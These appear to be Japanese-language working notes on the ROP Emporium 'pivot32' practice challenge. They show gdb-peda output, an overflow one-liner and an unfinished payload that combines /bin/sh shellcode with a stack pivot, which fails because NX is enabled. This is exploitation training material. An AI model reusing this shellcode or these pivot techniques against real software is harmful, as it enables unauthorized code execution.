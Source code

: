 ```
~/ctf/practice-pwn/ROP-Emporium/pivot32:yyy@(*｡˃̵ω ˂̵｡) < ./pivot32
pivot by ROP Emporium
32bits

Call ret2win() from libpivot.so
The Old Gods kindly bestow upon you a place to pivot: 0xf7df0f08
Send your second chain now and it will land there
> hoge
Now kindly send your stack smash
> fuga

Exiting
```

やることは、 `Call ret2win() from libpivot.so` っぽい

1回目の入力はBoFしない？

2回目の入力は offset: 44


```
gdb-peda$ disas usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x080488c0 <+0>:	pop    eax
   0x080488c1 <+1>:	ret
   0x080488c2 <+2>:	xchg   esp,eax
   0x080488c3 <+3>:	ret
   0x080488c4 <+4>:	mov    eax,DWORD PTR [eax]
   0x080488c6 <+6>:	ret
   0x080488c7 <+7>:	add    eax,ebx
   0x080488c9 <+9>:	ret
   0x080488ca <+10>:	xchg   ax,ax
   0x080488cc <+12>:	xchg   ax,ax
   0x080488ce <+14>:	xchg   ax,ax
```

```
gdb-peda$ disas uselessFunction
Dump of assembler code for function uselessFunction:
   0x080488a1 <+0>:	push   ebp
   0x080488a2 <+1>:	mov    ebp,esp
   0x080488a4 <+3>:	sub    esp,0x8
   0x080488a7 <+6>:	call   0x80485f0 <foothold_function@plt>
   0x080488ac <+11>:	sub    esp,0xc
   0x080488af <+14>:	push   0x1
   0x080488b1 <+16>:	call   0x80485e0 <exit@plt>
```

uselessFunctionに遷移させてみる
```
$ python -c 'print "A\n" + "A" * 44 + "\xa1\x88\x04\x08"' |./pivot32
pivot by ROP Emporium
32bits

Call ret2win() from libpivot.so
The Old Gods kindly bestow upon you a place to pivot: 0xf75dff08
Send your second chain now and it will land there
> Now kindly send your stack smash
> foothold_function(), check out my .got.plt entry to gain a foothold into libpivot.so
```



```
gdb-peda$ telescope 25
0000| 0xffffbd2c ("BBBBAAAAAAAAA")
0004| 0xffffbd30 ("AAAAAAAAA")
0008| 0xffffbd34 ("AAAAA")
0012| 0xffffbd38 --> 0x41 ('A')
0016| 0xffffbd3c --> 0x0
0020| 0xffffbd40 --> 0x1
0024| 0xffffbd44 --> 0xffffbe04 --> 0xffffc0b1 ("/home/yyy/yyy-d/work/ctf/pwn/ROP-Emporium/pivot32/pivot32")
0028| 0xffffbd48 --> 0xf7dedf08 ("CCCC\n")
0032| 0xffffbd4c --> 0xf6dee008 --> 0x0
0036| 0xffffbd50 --> 0xf7fa23dc --> 0xf7fa31e0 --> 0x0
0040| 0xffffbd54 --> 0xffffbd70 --> 0x1
0044| 0xffffbd58 --> 0x0
0048| 0xffffbd5c --> 0xf7e08637 (<__libc_start_main+247>: add    esp,0x10)
0052| 0xffffbd60 --> 0xf7fa2000 --> 0x1b1db0
0056| 0xffffbd64 --> 0xf7fa2000 --> 0x1b1db0
0060| 0xffffbd68 --> 0x0
0064| 0xffffbd6c --> 0xf7e08637 (<__libc_start_main+247>: add    esp,0x10)
0068| 0xffffbd70 --> 0x1
0072| 0xffffbd74 --> 0xffffbe04 --> 0xffffc0b1 ("/home/yyy/yyy-d/work/ctf/pwn/ROP-Emporium/pivot32/pivot32")
0076| 0xffffbd78 --> 0xffffbe0c --> 0xffffc0eb ("XDG_SEAT=seat0")
0080| 0xffffbd7c --> 0x0
0084| 0xffffbd80 --> 0x0
0088| 0xffffbd84 --> 0x0
0092| 0xffffbd88 --> 0xf7fa2000 --> 0x1b1db0
0096| 0xffffbd8c --> 0xf7ffdc04 --> 0x0
```


payload = ""
payload += "\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x53\x31\xd2\x52\x6a\x0b\x58\xcd\x80"  # shellcode
payload += "\n"
payload += "A" * 44
payload += p32(pop_eax)
payload += p32(pivot_addr)
payload += p32(xchg_esp_eax)

これだと、mallocで確保された領域に実行権限がないので、invalidになるっぽい

Stopped reason: SIGSEGV
0x68732f68 in ?? ()
gdb-peda$ vmmap 0xf7dedf08
Start      End        Perm	Name
0xf6dee000 0xf7df0000 rw-p	mapped
gdb-peda$ vmmap
Start      End        Perm	Name
0x08048000 0x08049000 r-xp	/home/yyy/yyy-d/work/ctf/pwn/ROP-Emporium/pivot32/pivot32
0x08049000 0x0804a000 r--p	/home/yyy/yyy-d/work/ctf/pwn/ROP-Emporium/pivot32/pivot32
0x0804a000 0x0804b000 rw-p	/home/yyy/yyy-d/work/ctf/pwn/ROP-Emporium/pivot32/pivot32
0x0804b000 0x0806d000 rw-p	[heap]
0xf6dee000 0xf7df0000 rw-p	mapped
0xf7df0000 0xf7fa0000 r-xp	/lib/i386-linux-gnu/libc-2.23.so
0xf7fa0000 0xf7fa2000 r--p	/lib/i386-linux-gnu/libc-2.23.so
0xf7fa2000 0xf7fa3000 rw-p	/lib/i386-linux-gnu/libc-2.23.so
0xf7fa3000 0xf7fa6000 rw-p	mapped
0xf7fd0000 0xf7fd1000 r-xp	/home/yyy/yyy-d/work/ctf/pwn/ROP-Emporium/pivot32/libpivot32.so
0xf7fd1000 0xf7fd2000 r--p	/home/yyy/yyy-d/work/ctf/pwn/ROP-Emporium/pivot32/libpivot32.so
0xf7fd2000 0xf7fd3000 rw-p	/home/yyy/yyy-d/work/ctf/pwn/ROP-Emporium/pivot32/libpivot32.so
0xf7fd3000 0xf7fd5000 rw-p	mapped
0xf7fd5000 0xf7fd7000 r--p	[vvar]
0xf7fd7000 0xf7fd9000 r-xp	[vdso]
0xf7fd9000 0xf7ffb000 r-xp	/lib/i386-linux-gnu/ld-2.23.so
0xf7ffb000 0xf7ffc000 rw-p	mapped
0xf7ffc000 0xf7ffd000 r--p	/lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rw-p	/lib/i386-linux-gnu/ld-2.23.so
0xfffdc000 0xffffe000 rw-p	[stack]
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
